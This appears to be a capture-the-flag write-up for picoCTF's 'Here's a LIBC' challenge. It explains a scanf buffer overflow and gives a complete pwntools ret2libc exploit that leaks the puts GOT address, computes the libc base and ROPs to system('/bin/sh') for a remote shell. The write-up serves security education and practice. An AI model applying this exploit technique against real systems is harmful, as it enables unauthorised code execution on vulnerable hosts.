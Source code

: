 ```yaml
---
slug: heres_a_libc
title: Here's a LIBC
authors: [nguyen]
tags: [Pico CTF, Binary Exploitation]
---
```


<!--truncate-->

## The Challenge

The challenge can be found [here](https://play.picoctf.org/practice).

## Analysis

I always like to start off with running checksec on the binary of interest.

```bash
checksec ./vuln
```

Insert image of checksec result here.

We won't be able to execute instructions on the stack so a ropchain may be necessary. PIE is not enabled so we will not need to worry about memory addresses changing every time we run the binary.

Using Ghidra, we find that there is a ```scanf``` vulnerability that can lead to a buffer overflow. We can use ```cyclic``` to determine the overflow offset which is 136.

## The Solve

There is no flag within the binary so we will try to obtain a shell. If we leak a libc address, we can find the base address of the library and then utilize the system function to start a shell.

A common technique here is to use ```puts``` to leak the ```puts``` GOT. With the ```puts``` address, we can determine the address for system and craft a ropchain to run ```system("bin/sh")```. Due to stack alignment, I needed an extra ```ret``` instruction.

Now we have a shell and can see that there is a flag file that we can ```cat```.

## Script

```python
from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

gdb_script = """
"""

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    if args.get('REMOTE'):
        io = remote('mercury.picoctf.net', 24159)
    elif args.get('GDB'):
        io = gdb.debug([exe.path], gdb_script)
    else:
        io = process([exe.path])
    return io


def main():
    '''Return the flag.
    '''
    offset = 136

    rop = ROP(exe)
    with conn() as io:
        pattern = b"A" * offset + p64(rop.find_gadget(['pop rdi', 'ret'])[0]) + \
                    p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.symbols['main'])
        io.sendline(pattern)
        io.recvlines(2)
        # Get the puts output of the puts GOT address
        got_addr = io.recvline()
        # Strip newline
        got_addr = got_addr[:-1]
        
        # Pad for packing
        pad_len = 8 - len(got_addr)
        got_addr = got_addr + (b"\x00" * pad_len)

        print(f"GOT ADDR: {hex(u64(got_addr))}")
        base_addr = u64(got_addr) - 0x180a30
        print(f"Base addr: {hex(base_addr)}")
        system_addr = base_addr + 0x0014f4e0
        print(f"System addr: {hex(system_addr)}")
        bin_sh_addr = base_addr + 0x2b40fa
        
        # Note stack alignment issues so additional ret was required for 16 byte alignment
        payload = b"A" * offset + p64(rop.find_gadget(['pop rdi', 'ret'])[0]) + \
                    p64(bin_sh_addr) + p64(rop.find_gadget(['ret'])[0]) + \
                    p64(system_addr)
        io.sendline(payload)
        io.interactive()


if __name__ == '__main__':
    main()
```
